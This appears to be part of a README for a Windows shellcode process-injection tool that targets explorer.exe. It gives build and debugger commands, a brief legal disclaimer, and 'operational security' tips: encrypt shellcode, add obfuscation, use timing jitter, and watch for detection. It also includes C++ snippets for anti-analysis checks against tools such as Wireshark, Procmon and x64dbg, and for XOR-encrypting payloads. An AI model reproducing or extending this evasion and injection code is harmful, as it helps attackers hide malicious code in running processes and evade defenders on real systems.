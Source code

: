 ### Debugging

```bash
# Build debug version
cl.exe /Od /MTd /Zi advanced_injector.cpp /link /OUT:injector_debug.exe

# Run with debugger
windbg injector_debug.exe explorer.exe reflective
```

## 🚨 Security Considerations

### Legal and Ethical

- **Authorization Required**: Only test systems you own or have permission to test
- **Educational Purpose**: Use for learning and authorized assessments
- **No Malicious Use**: Do not use for unauthorized access
- **Compliance**: Follow all applicable laws and regulations

### Operational Security

1. **Encryption**: Always use strong encryption for shellcode
2. **Obfuscation**: Implement additional obfuscation layers
3. **Timing**: Use jitter and random delays
4. **Cleanup**: Remove persistence mechanisms after testing
5. **Monitoring**: Watch for detection events

## 🔧 Advanced Customization

### Custom Anti-Detection

```cpp
// Add custom detection methods
bool CustomAntiDetection() {
    // Check for analysis tools
    const char* tools[] = {
        "wireshark.exe", "procmon.exe", "processhacker.exe",
        "ollydbg.exe", "x64dbg.exe", "ida64.exe"
    };
    
    for (const char* tool : tools) {
        if (FindWindowA(NULL, tool) != NULL) return true;
    }
    return false;
}
```

### Custom Encryption

```cpp
// Implement custom encryption algorithm
std::vector<BYTE> CustomEncrypt(const std::vector<BYTE>& data) {
    std::vector<BYTE> encrypted(data.size());
    for (size_t i = 0; i < data.size(); i++) {
        encrypted[i] = data[i] ^ (i * 0x37 + 0x42);
    }
    return encrypted;
}
```
